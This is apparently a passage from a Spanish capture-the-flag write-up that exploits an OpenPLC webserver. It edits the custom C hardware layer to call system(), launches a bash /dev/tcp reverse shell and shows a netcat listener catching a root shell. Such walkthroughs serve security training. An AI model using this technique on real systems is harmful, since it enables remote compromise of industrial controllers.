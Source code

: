```c
    // If you want to have %IW3 constantly reading a fixed value (for example, 53)
    // you must add %IW3 to the ignored vectors above, and then just insert this 
    // single line of code in this function:
    //     if (int_input[3] != NULL) *int_input[3] = 53;
}

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal output
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomOut()
{
    // Example Code - Sending %QW5 value over I2C
    // If you want to have %QW5 output to be sent over I2C instead of the
    // traditional output for your board, all you have to do is, first add
    // %QW5 to the ignored vectors, and then define a send_over_i2c()
    // function for your platform. Finally you can call send_over_i2c() to 
    // send your %QW5 value, like this:
    //     if (int_output[5] != NULL) send_over_i2c(*int_output[5]);
    //
    // Important observation: If your I2C pins are used by OpenPLC I/Os, you
    // must also add those I/Os to the ignored vectors, otherwise OpenPLC
    // will try to control your I2C pins and your I2C message won't work.
}

```

Bien, como podemos intuir el software se va a encargar de compilar este código C y luego ejecutarlo dentro del PLC, algo que se nos puede ocurrir intentar (aunque no sería muy viable intentarlo, dado que existe la posiblidad de que las cabeceras de C existentes solamente sean las de los PLC) es incluir la cabecera `stdlib.h` e intentar ejecutar un comando del sistema con la función `system()`. Podríamos modificar el código así:

```c
#include <stdlib.h>

// Elegimos esta función ya que es la que primero se ejecutará al inicializar el programa. 
void initCustomLayer(){
    system("... command to execute ...");
}


... [snip]
```

Guardando el código y luego ejecutando el PLC hará que efectivamente, el comando que le hayamos puesto se ejecute. Por lo que podemos proceder a enviarnos una reverse shell ejecutando `bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'`:

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.7 47146
bash: cannot set terminal process group (171): Inappropriate ioctl for device
bash: no job control in this shell
root@attica04:/opt/PLC/OpenPLC_v3/webserver# script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@attica04:/opt/PLC/OpenPLC_v3/webserver# ^Z
[1]  + 4559 suspended  nc -lvnp 443

❯ stty raw -echo; fg
[1]  + 4559 continued  nc -lvnp 443
                                   reset xterm
```